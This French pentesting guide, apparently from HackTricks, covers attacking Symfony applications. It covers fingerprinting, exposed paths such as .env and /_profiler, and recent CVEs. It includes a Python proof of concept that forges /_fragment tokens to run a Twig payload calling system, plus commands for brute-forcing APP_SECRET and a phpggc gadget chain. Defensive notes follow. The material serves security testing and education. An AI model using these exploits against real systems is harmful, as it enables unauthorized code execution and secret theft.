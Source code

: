 # Symfony

{{#include ../../banners/hacktricks-training.md}}

Symfony est l'un des frameworks PHP les plus utilisés et apparaît régulièrement dans les évaluations des cibles d'entreprise, de commerce électronique et de CMS (Drupal, Shopware, Ibexa, OroCRM… tous intègrent des composants Symfony). Cette page collecte des conseils offensifs, des configurations incorrectes courantes et des vulnérabilités récentes que vous devriez avoir sur votre liste de contrôle lorsque vous découvrez une application Symfony.

> Note historique : Une grande partie de l'écosystème utilise encore la branche **5.4 LTS** (EOL **novembre 2025**). Vérifiez toujours la version mineure exacte car de nombreux avis de sécurité de 2023-2025 ne sont corrigés que dans des versions de patch (par exemple, 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* En-têtes de réponse HTTP : `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` ou cookies commençant par `sf_redirect`, `sf_session`, `MOCKSESSID`.
* Les fuites de code source (`composer.json`, `composer.lock`, `/vendor/…`) révèlent souvent la version exacte :
```bash
curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
```
* Routes publiques qui n'existent que sur Symfony :
* `/_profiler`   (Symfony **Profiler** & barre d'outils de débogage)
* `/_wdt/<token>` (“Web Debug Toolbar”)
* `/_error/{code}.{_format}` (pages d'erreur jolies)
* `/app_dev.php`, `/config.php`, `/config_dev.php` (contrôleurs frontaux de développement pré-4.0)
* Wappalyzer, BuiltWith ou listes de mots ffuf/feroxbuster : `symfony.txt` → recherchez `/_fragment`, `/_profiler`, `.env`, `.htaccess`.

### Fichiers et points de terminaison intéressants
| Chemin | Pourquoi c'est important |
|--------|-------------------------|
| `/.env`, `/.env.local`, `/.env.prod` | Souvent mal déployés → fuites `APP_SECRET`, identifiants DB, SMTP, clés AWS |
| `/.git`, `.svn`, `.hg` | Divulgation de source → identifiants + logique métier |
| `/var/log/*.log`, `/log/dev.log` | Mauvaise configuration de la racine web expose des traces de pile |
| `/_profiler` | Historique complet des requêtes, configuration, conteneur de services, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | Point d'entrée utilisé par ESI/HInclude. Abus possible une fois que vous connaissez `APP_SECRET` |
| `/vendor/phpunit/phpunit/phpunit` | RCE PHPUnit si accessible (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & parfois fuite des traces d'exception |

---

## Vulnérabilités à fort impact (2023-2025)

### 1. Divulgation de APP_SECRET ➜ RCE via `/_fragment` (alias “secret-fragment”)
* **CVE-2019-18889** à l'origine, mais *apparaît toujours* sur des cibles modernes lorsque le débogage est laissé activé ou que `.env` est exposé.
* Une fois que vous connaissez le `APP_SECRET` de 32 caractères, créez un jeton HMAC et abusez du contrôleur interne `render()` pour exécuter du Twig arbitraire :
```python
# PoC – nécessite le secret
import hmac, hashlib, requests, urllib.parse as u
secret = bytes.fromhex('deadbeef…')
payload = "{{['id']|filter('system')}}"   # RCE dans Twig
query = {
'template': '@app/404.html.twig',
'filter': 'raw',
'_format': 'html',
'_locale': 'en',
'globals[cmd]': 'id'
}
qs = u.urlencode(query, doseq=True)
token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
print(r.text)
```
* Excellent article et script d'exploitation : blog Ambionics (lié dans les références).

### 2. Détournement de processus Windows – CVE-2024-51736
* Le composant `Process` recherchait le répertoire de travail actuel **avant** `PATH` sur Windows. Un attaquant capable de télécharger `tar.exe`, `cmd.exe`, etc. dans une racine web écrivable et de déclencher `Process` (par exemple, extraction de fichiers, génération de PDF) obtient l'exécution de commandes.
* Corrigé dans 5.4.50, 6.4.14, 7.1.7.

### 3. Fixation de session – CVE-2023-46733
* Le garde d'authentification a réutilisé un ID de session existant après la connexion. Si un attaquant définit le cookie **avant** que la victime ne s'authentifie, il détourne le compte après la connexion.

### 4. XSS dans le sandbox Twig – CVE-2023-46734
* Dans les applications qui exposent des modèles contrôlés par l'utilisateur (CMS admin, constructeur d'e-mails), le filtre `nl2br` pourrait être abusé pour contourner le sandbox et injecter du JS.

### 5. Chaînes de gadgets Symfony 1 (toujours trouvées dans des applications héritées)
* `phpggc symfony/1 system id` produit une charge utile Phar qui déclenche RCE lorsqu'un unserialize() se produit sur des classes telles que `sfNamespacedParameterHolder`. Vérifiez les points de terminaison de téléchargement de fichiers et les wrappers `phar://`.


{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Exploitation Cheat-Sheet

### Calculer le jeton HMAC pour `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```
### Bruteforce faible `APP_SECRET`
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```
### RCE via exposed Symfony Console
Si `bin/console` est accessible via `php-fpm` ou un téléchargement direct en CLI :
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Utilisez des gadgets de désérialisation dans le répertoire de cache ou écrivez un modèle Twig malveillant qui sera exécuté lors de la prochaine requête.

---

## Notes défensives
1. **Ne jamais déployer le débogage** (`APP_ENV=dev`, `APP_DEBUG=1`) en production ; bloquez `/app_dev.php`, `/_profiler`, `/_wdt` dans la configuration du serveur web.
2. Stockez les secrets dans des variables d'environnement ou `vault/secrets.local.php`, *jamais* dans des fichiers accessibles via le document-root.
3. Appliquez la gestion des correctifs – abonnez-vous aux avis de sécurité Symfony et maintenez au moins le niveau de correctif LTS.
4. Si vous utilisez Windows, mettez à jour immédiatement pour atténuer CVE-2024-51736 ou ajoutez une défense en profondeur `open_basedir`/`disable_functions`.

---

### Outils offensifs utiles
* **ambionics/symfony-exploits** – RCE de fragment secret, découverte de routes de débogage.
* **phpggc** – Chaînes de gadgets prêtes à l'emploi pour Symfony 1 & 2.
* **sf-encoder** – petit outil pour calculer le HMAC de `_fragment` (implémentation Go).

## Références
* [Ambionics – Symfony “secret-fragment” Remote Code Execution](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Security Advisory – CVE-2024-51736: Command Execution Hijack on Windows Process Component](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)
{{#include ../../banners/hacktricks-training.md}}
